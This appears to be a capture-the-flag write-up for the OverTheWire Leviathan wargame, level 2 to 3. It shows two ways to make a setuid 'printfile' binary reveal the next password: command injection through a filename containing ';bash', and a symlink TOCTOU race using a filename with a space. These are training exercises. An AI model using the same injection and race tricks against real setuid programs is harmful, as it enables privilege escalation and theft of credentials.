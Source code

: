 ## Level 2 to 3

Login to Leviathan2:
```bash
sshpass -p $(cat leviathan2) ssh -p 2223 leviathan2@leviathan.labs.overthewire.org
```

You'll find *printfile* executable with setuid and executing just reads the file but not ```/etc/leviathan_pass/leviathan3```

---

## Method 1: Code Injection

Create a fake file attach it to command using **;** and have the *printfile* execute it

```bash
mktemp -d
touch 'fake;bash'
```

Upon executing ```printfile``` on ```fake;bash```, 'fake' is executed first and then bash is executed.\
Since the whole thing is running as user *leviathan3* the bash gets executed as leviathan3.

```bash
~/printfile 'fake;bash'
```
```bash
leviathan3@leviathan:$ cat /etc/leviathan_pass/leviathan3
```

Save the password to file *leviathan3*

At last ```exit``` and ```logout```

---

## Method 2: TOCTOU

Time to Check, Time to use\
using symboliclink

Logic is create a file, link it to cat the leviathan3 password file and create another file with a space to be ececuted along with *printfile* such that the access check is passed and the first part of file name is executed which is actually the symlink to get the lev3 password.

```bash
ln -s /etc/leviathan_pass/leviathan3 /tmp/tmpxx/test
touch "test 2"
~/printfile "test 2"
```

Save the password to file *leviathan3*

At last ```exit``` and ```logout```